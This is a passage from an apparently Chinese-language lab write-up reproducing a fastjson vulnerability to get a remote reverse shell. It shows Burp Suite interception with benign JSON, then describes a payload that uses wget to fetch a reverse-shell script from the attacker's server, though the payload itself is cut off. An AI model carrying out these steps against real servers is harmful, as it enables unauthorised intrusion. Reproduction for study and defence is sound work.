 ![fastjson](imgs/9.png)

### 4.3&emsp;漏洞复现（远程反弹shell） ###

1.通过浏览器访问环境URL，利用burpsuite对数据包进行拦截，修改数据包发送方式并且插入POST数据`{"name":"feifei",age:12}`，查看效果：

![fastjson](imgs/12.png)

2.构造攻击payload，从自己的服务器中通过wget命令下载exploit.sh反弹shell脚本，payload:
